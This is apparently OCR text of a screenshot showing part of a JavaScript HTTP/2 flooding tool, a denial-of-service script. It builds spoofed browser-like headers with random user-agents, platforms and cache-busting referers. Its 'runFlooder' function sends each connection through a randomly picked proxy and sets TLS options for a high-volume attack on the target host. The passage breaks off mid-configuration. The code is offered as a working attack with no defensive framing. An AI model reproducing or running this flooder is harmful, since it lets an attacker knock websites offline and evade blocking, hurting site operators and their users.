 const Header = new NetSocket();
headers[":method"] = "GET";
headers[":path"] = parsedTarget.path
headers[":scheme"] = "https";
headers["accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8";
headers["accept-language"] = "es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3";
headers["accept-encoding"] = "gzip, deflate, br";
headers["x-forwarded-proto"] = "https";
//headers["X-Forwarded-For"] = spoofed;
//headers["X-Forwarded-Host"] = spoofed;
//headers["Real-IP"] = spoofed;
headers["cache-control"] = "no-cache, no-store,private, max-age=0, must-revalidate";
headers["sec-ch-ua-mobile"] = randomElement(["?0", "?1"]);
headers["sec-ch-ua"] = '"Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"';
headers["sec-ch-ua-platform"] = randomElement(["Android", "iOS", "Linux", "macOS", "Windows"]);
headers["sec-fetch-dest"] = "document";
headers["sec-fetch-mode"] = "navigate";
headers["sec-fetch-site"] = "same-origin";
headers["upgrade-insecure-requests"] = "1";
headers["sec-fetch-user"] = "?1";
headers["x-requested-with"] = "XMLHttpRequest";

function runFlooder() {
    const proxyAddr = randomElement(proxies);
    const parsedProxy = proxyAddr.split(":");

    /** headers dynamic */
    headers[":authority"] = parsedTarget.host
    headers["user-agent"] = randomElement(userAgents);
    headers["x-forwarded-for"] = parsedProxy[0];
    headers["referer"] = "https://" + parsedTarget.host + "/?" + randstr(15);
    headers["origin"] = "https://" + parsedTarget.host;

    const proxyOptions = {
        host: parsedProxy[0],
        port: ~~parsedProxy[1],
        address: parsedTarget.host + ":443",
        timeout: 100
    };

    Socker.HTTP(proxyOptions, (connection, error) => {
        if (error) return

        connection.setKeepAlive(true, 600000);
        connection.setNoDelay(true)

        const settings = {
            enablePush: false,
            initialWindowSize: 1073741823
        };

        const tlsOptions = {
           port: 443,
           secure: true,
           ciphers: ciphers,
           sigalgs: sigalgs,
           requestCert: true,
           socket: connection,
           ecdhCurve: ecdhCurve,
           host: parsedTarget.host,
           rejectUnauthorized: false,
           clientCertEngine: "dynamic",
           secureOptions: secureOptions,
           secureContext: secureContext,
           servername: parsedTarget.host,
           ecdhCurve: "prime256v1:X25519",
